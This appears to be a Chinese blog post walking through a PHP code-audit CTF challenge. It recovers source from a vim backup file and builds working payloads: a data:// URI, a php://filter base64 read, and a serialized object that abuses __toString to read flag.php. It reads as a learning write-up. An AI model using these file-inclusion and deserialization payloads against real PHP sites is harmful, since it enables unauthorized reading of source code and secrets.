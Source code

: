 ```yaml
---
layout: post
title: "一道代码审计题目"
date: 2019-08-16
description: "CTF"
tag: CTF
---
```

---

### 前言：

朋友在给客户培训，然后有个题，就帮忙看看了，也是自己学习一下吧！ <br>

题目：代码审计 <br>

PHP 是世界上最好的语言，我这样说你有意见么？ <br>

Address 

-----


### 目录：

* <a href="#a" target="_self">一道代码审计题目</a>
* <a href="#zg" target="_self">总结</a>
* <a href="#wx" target="_self">参考文献</a>

-------


### <span id = "a">一道代码审计题目：</span>

打开题目就显示一句话 `you can't get flag!` <br>

然后听朋友讲，不管怎么扫都没有用， <br>

代码审计的题目，一般是要看到源码才能审计的，<br>

要么是扫到源码，要么就爆出源码 <br>

![images](/images/2019-08-16/01.png)

-----

那么如果扫不到，那么就爆吧！ <br>

起初查看源代码没有任何东西，<br>

根据经验，后面加个 **`~`** 波浪线 就能爆出源码，查看源代码就能看到源码了 <br>

关于为什么 **`~`** 波浪线 能够爆出源码 <br>

它是 Linux备份文件，用文本编辑器编辑文件时的备份文件，比如 vim 编辑文件时产生的备份文件 <br>

![images](/images/2019-08-16/02.png)

-----

源码： <br>

```php
<!--
    $testa = $_GET["user"];
    $testb = $_GET["file"];
    $testc = $_GET["pass"];

if(isset($testa)&&(file_get_contents($testa,'r')==="can you get flag")){
    echo "Surprise     !<br><br><br><br>";
    include($testb); //key.php
}else{
    echo "you can't  get flag! ";
}
 -->
```

首先要满足两个条件， <br>

一个是 **$testa** 不能为空，另外一个是 **$testa** 内容为 **can you get flag** <br>

**file_get_contents()** 函数是将文件内容读入到字符串中 <br>

我们有两种方法满足这个条件， <br>

一种是使用远程文件，另外一种是使用 data 伪协议 <br>

-----

来尝试构造 **payload** <br>

`?user=data:text/plain;base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=key.php` <br>

**data:text/plain** 表示将文件设置为纯文本的形式 <br>

**base64** 就是表示使用 **base64编码** <br>

**Y2FuIHlvdSBnZXQgZmxhZw== (can you get flag)**为文本内容 <br>

这样就满足条件，然后通过 **file** 变量包含 **key.php** 文件 <br>

运行之后发现输出了 Surprise ，说明第一个条件是满足的，但是没有看到 key.php 的内容 <br>

根据以往经验，还需要使用其他伪协议来读取 <br>

![images](/images/2019-08-16/03.png)

-----

可以使用 **php://filter** 协议 来读取一下 **index2.php** 的源码 <br>

payload： `?user=data:text/plain,base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=php://filter/read=convert.base64-encode/resource=index2.php`

然后成功读取到 **index2.php** 的内容 <br>

![images](/images/2019-08-16/04.png) <br>

-----

解密 <br>

![images](/images/2019-08-16/05.png)

-----

再来看看代码 <br>

```php
<?php

$testa = $_GET["user"];
$testb = $_GET["file"];
$testc = $_GET["pass"];

if(isset($testa)&&(file_get_contents($testa,'r')==="can you get flag")){
    echo "Surprise     !<br><br><br><br>";
    if(preg_match("/flag/",$testb)){
        exit();
    }else{
        include($testb); //class.php  
        $testc = unserialize($testc);
        echo $testc;
    }
}else{
    echo "you can't  get flag!";
}

?>
```

这里他使用了一个正则表达式判断 **$testb** 参数， <br>

如果参数带 **flag** ，那么就退出 <br>

这里需要进行反序列化参数 **$testc** <br>

还需要读取一个文件 ，就是 **key.php** <br>

-----

解码后 key.php 的代码 <br>

```php
<?php
class Read{//flag.php
    public $testb;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
        return "__toString to killyou!";
    }
}
?>
```

这里 **class** 了一个 **Read** 类，用来读取 **flag** 的 <br>

`__toString()`  是魔术方法的一种，具体用途是当一个对象被当作字符串对待的时候，会触发这个魔术方法 <br>

思路就是将 读 **flag** 的 **payload** 传入到 **key.php** 这个页面下 <br>

这个 payload 需要 满足 **$testa 、 $testb 、 $testc**  <br>

**$testa** 要满足 **can you get flag** <br>

**$testb** 要包含 **key.php** <br>

**$testc** 就是读取 **flag** 了 <br>

-----

那么 **$testc** 反序列化的内容怎么构造呢 <br>

首先要能够调用类 **Read** <br>

然后要满足 **$this->file** <br>

**$this->file** 就是 `$_GET["file"]` 参数里面的文件信息 <br>

怎么就payload就是： **`pass=O:4:"Read":1:{s:4:"file";s:8:"flag.php";}`** <br>

那么 **$this->file** 就是 **flag.php** 

-----

整个payload就是： <br>

**`?user=data:text/plain;base64,Y2FuIHlvdSBnZXQgZmxhZw==&file=key.php&pass=O:4:"Read":1:{s:4:"file";s:8:"flag.php";}`**

然后成功读取到 **flag** <br>

**flag** 在源码里面 <br>

![images](/images/2019-08-16/06.png)

-----


### <span id = "zg">总结：</span>

怎么讲，就是太菜了，一波三折 <br> 

如果有什么不懂的，可以把代码弄到本地，<br>

然后自己断点输出，这样会比较明了

-----


### <span id = "wx">参考文献：</span>

CTF wp `https://www.jianshu.com/p/879115af6fc6` <br>

data 协议 `https://www.cnblogs.com/liyongquan/p/8615928.html` <br>

